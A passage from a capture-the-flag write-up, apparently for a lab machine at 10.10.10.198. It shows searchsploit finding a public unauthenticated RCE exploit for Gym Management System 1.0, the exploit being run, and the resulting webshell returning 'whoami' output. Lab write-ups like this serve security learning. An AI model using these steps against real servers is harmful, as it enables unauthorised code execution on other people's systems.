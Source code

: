 ```
/profile (Status: 301)

---

```


## 2. Getting User

Take a look at `http://10.10.10.198:8080`, we can find a subtitle that shows the running software and its version.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-12-30/2020-12-27-15-41-31.png)

Using searchsploit, we can find an RCE [Gym Management System 1.0 - Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/48506).
```
root@kali:~# searchsploit gym management
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection                                   | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                          | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Execution                | php/webapps/48506.py
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Download (or use the one installed on Kali by default) the exploit, install the prerequisites for python2 and execute the script.<br>
We can confirm that we had a shell execution.

```
root@kali:~# python -m pip install requests

---

root@kali:~# python -m pip install colorama

---

root@kali:~# python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
�
buff\shaun
```
